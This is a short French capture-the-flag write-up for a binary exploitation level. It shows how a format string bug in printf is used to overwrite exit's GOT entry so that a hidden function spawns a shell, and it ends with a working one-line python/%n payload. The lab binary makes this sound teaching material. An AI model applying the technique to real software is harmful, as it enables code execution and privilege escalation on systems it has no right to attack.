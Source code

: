## Level5

On trouve une fonction qui n'est pas appellé : `o()`. Cette fonction fait un appel à `system(/bin/sh)`

Le main fait appel à une fonction `n()` qui lit sur `stdin` et met le résultat en paramètre à `printf`, puis `exit()`

### Objectif:

Il faut appeler la fonction `o()`.

Dans la fonction `exit()` on voit un jump à une adresse:

```gdb
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
```
C'est une adresse dans la GOT, si nous écrivons à cette adresse on peut faire jump `exit` à l'endroit que nous voulons.

### Solution

On va tout d'abord passer l'adresse sur laquelle nous voulons réécrire.

Il faut ensuite que `printf` affiche autant de caractère que la valeur de l'adresse de la fonction o(). 

L'indicateur de conversion `%n` va écrire ce résultat:

`ADRESSE + CHAMP DE LARGEUR [ADRESSE DE o()] + %n`

`exit():  0x08049838`
`o():     0x080484a4 (134513828 decimal)`

`cat <(python -c 'print("\x38\x98\x04\x08" + "%134513824d" + "%4$n" )') - | ./level5`